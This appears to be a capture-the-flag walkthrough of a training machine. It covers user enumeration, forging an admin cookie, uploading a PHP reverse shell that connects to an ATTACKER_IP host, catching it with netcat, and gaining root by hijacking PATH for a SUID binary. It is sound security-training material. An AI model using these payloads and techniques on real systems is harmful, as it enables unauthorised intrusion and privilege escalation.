# 1. Enumeration

- We are going to start our enumeration by searching for any open ports using the Nmap tool:



- Upon checking the page source, we found an interesting endpoint that might be used to login to admin account:
`/cdn-cgi/login`



- After trying a couple of default username/password combinations, we didn't manage to get any access. But
there is also an option to `Login as Guest`. Trying that and now we are presented with a couple of new
navigation options as we are logged in as Guest:



- After navigating through the available pages, we spot that the only interesting one seems to be the
`Uploads`. However, it is not possible to access it as we need to have super admin rights.

- Going to the `Account` page, we spot that we can change the `id` parameter to enumerate the users:



- Indeed, we got an information disclosure vulnerability, which we might be able to abuse. We now know the
access ID of the admin user thus we can try to change the values in our cookie through the Developer tools
so the user value to be 34322 and role value to be admin . Then we can revisit the `Uploads` page.



# 2. Foothold

- Now that we got access to the upload form we can attempt to upload a PHP reverse shell. Let's use a simple one:

```
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/`ATTACKER_IP`/1234 0>&1'");?>
```

- And We finally managed to upload it. But now we might need to bruteforce directories in order to locate the folder
where the uploaded files are stored. We can use `gobuster` to automate the process:

```
gobuster dir --url http://{TARGET_IP}/ --wordlist
/usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x phpA
```



- The `gobuster` immediately found the /uploads directory. We don't have permission to access the
directory, but we can access our uploaded file.

- Now, lets set up a netcat listener to receive the reverse shell:

```
nc -lvnp 1234
```

- Then request our shell through browser:

```
http://{TARGET_IP}/uploads/php-reverse-shell.php
```

- Verify that we do get a reverse shell:



- We can issue the following to have a functional shell:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

# 3. Lateral Movement

- Going through each file in the current directory, we spot something interesting:



- Now that we got the password we can successfully login and read the user.txt flag which can be found in
the home directory of `robert`:



# 4. Privilege Escalation

- Before running any privilege escalation or enumeration script, let's check the basic commands for elevating
privileges like `sudo` and `id`:



- We observe that user `robert` is part of the group `bugtracker`. Let's try to see if there is any binary within
that group:



- We found a file named `bugtracker`. Let's check what privileges and what type of file is it:



- There is a `suid` set on that binary, which is a promising exploitation path.

```
Commonly noted as SUID (Set owner User ID), the special permission for the user access
level has a single function: A file with SUID always executes as the user who owns the
file, regardless of the user passing the command. If the file owner doesn't have
execute permissions, then use an uppercase S here.
In our case, the binary 'bugtracker' is owned by root & we can execute it as root since
it has SUID set.
```

- We will run the application to observe how it behaves:



- The tool is accepting user input as a name of the file that will be read using the `cat` command, however, it
does not specify the whole path to file `cat` and thus we might be able to exploit this.

- The idea here is that we will create another executable `cat` file in some directory, which will spawn a shell for us. 
Then, when running `bugtracker` in that directory, it will call our `cat` file, thus spawn us a shell.

- We will navigate to `/tmp` directory and create a file named `cat` with the following content: `/bin/sh`

- We also have to set execute privileges for it and add the `/tmp` directory to the PATH variable:

```
chmod +x cat
export PATH=/tmp:$PATH
```

- Finally, execute the `bugtracker` from `/tmp` directory:

